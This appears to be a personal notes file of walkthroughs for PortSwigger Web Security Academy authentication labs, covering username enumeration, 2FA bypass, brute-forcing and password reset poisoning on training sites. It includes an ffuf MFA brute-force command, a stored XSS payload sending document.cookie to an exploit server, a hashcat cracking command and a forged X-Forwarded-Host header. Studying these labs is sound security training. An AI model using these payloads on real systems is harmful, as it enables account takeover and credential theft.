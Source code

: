 # 🧪 Labs

## Portswigger
1. [Username enumeration via different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)
   - Fuzz the username using the username list provided in the lab.
   - Get valid username from the request with `Incorrect password` instead of `Incorrect username` in the response body.
   - Fuzz the password using password list provided in the lab.
   - Get valid username and password combination from the request which results in 302 status code.


2.  [2FA simple bypass](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)
       - Enter the username and password for `wiener`.
       - Enter the 2FA from the email.
       - Note down the url for my account page.
       - Log out and login as `carlos`.
       - Navigate to the url for my account page.


3.  [Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)
      - Generate a password reset token for `wiener`.
      - Using this token reset the password for `carlos`.
      - Reset the password for `carlos`.


4. [Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)
   - Fuzz the username using the username list provided in the lab.
   - Get valid username from the request with `Incorrect username or password` instead of `Incorrect username or password.` in the response body. Note the `.` at the end.
   - Fuzz the password using password list provided in the lab.
   - Get valid username and password combination from the request which results in 302 status code.


5. [Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)
   - Fuzz the username using the username list provided in the lab.
   - Get valid username from the request with highest response time.
   - Fuzz the password using password list provided in the lab.
   - Get valid username and password combination from the request which results in 302 status code.

6. [Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)
   - Generate the username list and password list by alternating the known attackers credentials and the unknown victim's credentials.
   - Fuzz the username and password using generated lists.
   - Get valid username and password combination from the request which results in 302 status code.


7. [Username enumeration via account lock](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock)
   - Fuzz the username and find the username from the request with `too many attempts` in the response.
   - Fuzz the password and find the password using the request which does not have any error message in the response.
   - Login after the wait time is completed.

8.  [2FA broken logic](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)
   - Login as `wiener`.
   - Send the request to repeater.
   - Use the request to trigger a mfa code to `carlos`.
   - Change the cookie from `verify=wiener` to `verify=carlos`.
   - Use burp intruder to bruteforce the login code in mfa page.
   - Note: Use below command in FFUF to bruteforce the login code.
      ```
      ffuf -w mfa_wordlist.txt:FUZZ -u "https://0a3a00620456a0f483f6e1a8004b00a5.web-security-academy.net/login2" -mc 302 -b "session=c4lf8n8fnIhAOUlR05tCTqtnK2ykkrV8; verify=carlos" -H "Referer: https://0a3a00620456a0f483f6e1a8004b00a5.web-security-academy.net/login2" -X POST -d mfa-code=FUZZ
      ```

9.  [Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)
   - Login as `wiener` with remember me option enabled.
   - Get the `stay-logged-in` cookie and base64 decode it.
   - The decoded cookie will be in the format wiener:md5hashofpassword
   - Use intruder to bruteforce the password of carlos using the following payload processors.
      - md5hash
      - prefix carlos:
      - base64 encode

10. [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)
   - Login as `wiener`
   - Navigate to a blog post.
   - Comment the below code in the post.
      ```
      <script>document.location='https://exploit-0a7d001604d419aa80a26102016000a3.exploit-server.net/'+document.cookie</script>
      ``` 
   - Fetch the cookie and decode it.
   - Find the value for the hash using websites such as crackstation.net or hashes.com
   - Alternatively, you could also use the below command in hashcat to crack using wordlist.
      ```
      hashcat -a 0 -m 0 26323c16d5f4dabff3bb136f2460a943 ~/Wordlists/Rockyou/rockyou.txt
      ```

11. [Password reset poisoning via middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)
   - Intercept the forgot password endpoint.
   - Change the username to `carlos`.
   - Add the header `X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
   - Use the token sent to email to reset the password for `carlos`.

12. [Password brute-force via password change](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change)
   - Login as `weiner`
   - Change the password and intercept the request.
   - Enter different values for new password and confirm password
   - Notice that, if the current password is wrong the change password request throws an error `Current password is incorrect.` and if the current password is correct it says `New passwords do not match`.
   - Using this different error message bruteforce the password for `carlos`.
   - Login and delete the user `carlos`

13. [Broken brute-force protection, multiple credentials per request](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)
       - Sign in with username as `carlos` and `test`.
       - Intercept the sign in request.
       - Change the password from `test` to an array of all the values in the password list provided in the lab.
       - Send the request.

14. [2FA bypass using a brute-force attack](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack)
